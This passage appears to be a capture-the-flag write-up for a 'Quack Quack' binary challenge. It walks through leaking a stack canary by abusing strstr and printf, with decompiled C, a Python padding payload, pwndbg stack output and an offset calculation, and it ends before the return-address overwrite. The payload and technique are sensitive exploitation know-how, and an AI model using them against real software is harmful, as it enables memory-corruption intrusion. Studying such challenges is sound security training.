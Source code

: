 We can try to overflow the ``0x00`` bytes of the canary with our first input, leak it with the ``printf`` and then override the return address but it's not that easy!
The first overflow 
```C
read(0, buf, 102uLL); // Here!
```
Is not enough to get to the canary and the second only reaches the frame pointer
```C
read(0, v3, 106uLL); // And here!
```

but have a ``strstr`` which checks if the string ``Quack Quack `` is in our first input. Looking at the man page:
```
DESCRIPTION
       The  strstr()  function  finds  the  first occurrence of the substring needle in the
       string haystack.  The terminating null bytes ('\0') are not compared.

       The strcasestr() function is like strstr(), but ignores the case of both arguments.

RETURN VALUE
       These functions return a pointer to the beginning of the located substring, or  NULL
       if the substring is not found.

       If needle is the empty string, the return value is always haystack itself.
```
we see that this will return a pointer to the beginning of the found substring. We can use this to our advantage because the next ```printf``` will print a string ``%s`` from where the ``strstr`` found the substring ``+ 32``
```C
read(0, buf, 102uLL);
v1 = strstr((const char *)buf, "Quack Quack ");
if ( !v1 )
{
error("Where are your Quack Manners?!\n");
exit(1312);
}
printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```
we can then send this payload
```py
payload = (b"Quack Quack \x00").rjust(100+2, b"A")
```
here we are trying to put the ``Quack Quack `` string exactly ``32+2`` bytes before the canary. This will print us the canary minus the ``0x00`` byte.
We can find the offset from gdb
```bash
pwndbg> stack 20
00:0000│ rsp 0x7fffffffda30 ◂— 0x0
01:0008│-088 0x7fffffffda38 ◂— 0x0
02:0010│ rsi 0x7fffffffda40 ◂— 'Start of the buffer!\n'
03:0018│-078 0x7fffffffda48 ◂— ' the buffer!\n'
04:0020│-070 0x7fffffffda50 ◂— 0xa21726566 /* 'fer!\n' */
05:0028│-068 0x7fffffffda58 ◂— 0x0
... ↓        10 skipped
10:0080│-010 0x7fffffffdab0 —▸ 0x7ffff7e17600 (__GI__IO_file_jumps) ◂— 0x0
11:0088│-008 0x7fffffffdab8 ◂— 0xd53297dc10d99200 # Canary
12:0090│ rbp 0x7fffffffdac0 —▸ 0x7fffffffdae0 ◂— 0x1
13:0098│+008 0x7fffffffdac8 —▸ 0x40162a (main+37) ◂— mov eax, 0
```
then: 
```py
>>> 0x7fffffffdab8 - (32 - len("Quack Quack ")) - 0x7fffffffda40
100
```
